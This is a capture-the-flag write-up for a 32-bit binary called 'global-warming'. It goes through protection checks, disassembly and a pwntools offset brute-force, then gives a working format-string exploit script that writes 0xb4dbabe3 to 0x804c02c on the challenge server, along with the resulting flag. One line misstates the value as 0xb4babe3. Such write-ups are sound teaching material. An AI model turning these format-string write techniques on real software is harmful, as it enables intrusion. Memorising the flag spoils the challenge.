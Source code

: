 # Global Warming

## Global Warming

### Protections

Let's first run `checksec` to see what protections the file has:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Here we don't see many protection, there's only `NX`, which means no shellcode, and `ASLR` is likely enabled serverside

### Running the file

Running the file we see that we are first prompted for input, and then when we enter some, we are given an error message, and then terminates:

```text
$ ./global-warming
aaaa
aaaa
You cannot login as admin.
```

However it's important to note that our input is printed back to us, let's check for a format string exploit:

```text
$ ./global-warming
%x
f7f2d2c0
You cannot login as admin.
```

And it's fortunately vulnerable to format strings

### Reversing

Let's load this into ghidra to get some pseudo-c code

![](../../../.gitbook/assets/globalwarmingmain.png)

Here we see it take input with fgets, where it makes a secure copy to the buffer \(reads 1024 into a 1024 big buffer\), so no buffer overflow here. It then calls `login` with this input, and another value that's unknown. Let's check in gdb what this is:

```text
   0x804928a <main+139>:        push   eax
   0x804928b <main+140>:        lea    eax,[ebx-0x1fd0]
   0x8049291 <main+146>:        push   eax
=> 0x8049292 <main+147>:        call   0x80491a6 <login>
   0x8049297 <main+152>:        add    esp,0x10
   0x804929a <main+155>:        mov    eax,0x0
   0x804929f <main+160>:        lea    esp,[ebp-0x8]
   0x80492a2 <main+163>:        pop    ecx
Guessed arguments:
arg[0]: 0x804a030 ("User")
arg[1]: 0xffffce90 ("aaaa\n")
```

Seems like a `user` variable that we might need to change. Let's decompile `login`:

![login](../.gitbook/assets/globalwarminglogin.png)

So it prints our input back to us without a format specifier, hence the format string exploit. Then it compares a variable to the value `0xb4dbabe3`, if equal, we get the flag

We can just assume that the previous value is that variable, but let's just check that with gdb:

```text
=> 0x80491c6 <login+32>:        mov    eax,DWORD PTR [ebx+0x2c]    <== moves the value into eax
   0x80491cc <login+38>:        cmp    eax,0xb4dbabe3              <== compares with the value
   0x80491d1 <login+43>:        jne    0x80491e7 <login+65>        <== jumps past the flag if they aren't equal
```

Here's the `if` statement if assembly. At this instruction:

```text
EBX: 0x804c000 --> 0x804bf00 --> 0x1
```

So the variable is stored at `0x804c02c`, not at `0x804a030`

### Exploit

To complete this challenge we need to use the format string exploit to _write_ the value `0xb4dbabe3` at that memory address \(with the use of `%n`\), so we can pass the check, and get the flag. Fortunately, pwntools has a feature to automate this for us:

`fmtstr_payload(offset, {address : value}`

Since we are writing at the address `0x804c02c`, `address` would be that, and `value` is `0xb4babe3`

We need to find the offset though, which is basically the format string offset where it shows us our input. For example, if I did:

```text
AAAA %6$x
```

And it returned:

```text
AAAA 41414141
```

`6` would be our offset

To find this, I used the below program to brute force it:

```python
from pwn import *

e = ELF("./global-warming")

for i in range(20):
    io = e.process(level="error")
    io.sendline("AAAA %%%d$lx"% i )
    print("%d - %s" % (i, io.recvline().strip()))
    io.close()
```

Running it:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0 - b'AAAA %0$lx'
1 - b'AAAA f7f5f2c0'
2 - b'AAAA fbad2087'
3 - b'AAAA 80491b2'
4 - b'AAAA f7f20000'
5 - b'AAAA 804c000'
6 - b'AAAA ffd235b8'
7 - b'AAAA 8049297'
8 - b'AAAA 804a030'
9 - b'AAAA fff1e550'
10 - b'AAAA f7eff580'
11 - b'AAAA 8049219'
12 - b'AAAA 41414141'   <== this one
13 - b'AAAA 33312520'
14 - b'AAAA a786c24'
15 - b'AAAA fff92800'
16 - b'AAAA 3'
17 - b'AAAA 0'
18 - b'AAAA f7fc9000'
19 - b'AAAA f7d04748'
```

We find our offset is `12`. This makes our payload look like this:

```text
fmtstr_payload(12 , {0x804c02c : 0xb4dbabe3})
```

### Script

Our final exploit script now looks like this:

```python
from pwn import *

p = remote("chall.csivit.com", 30023)

value = 0xb4dbabe3

payload = fmtstr_payload(12 , {0x804c02c : value})

p.sendline(payload)

print(p.clean())
```

**csictf{n0**_**5tr1ng5**_**@tt@ch3d}**


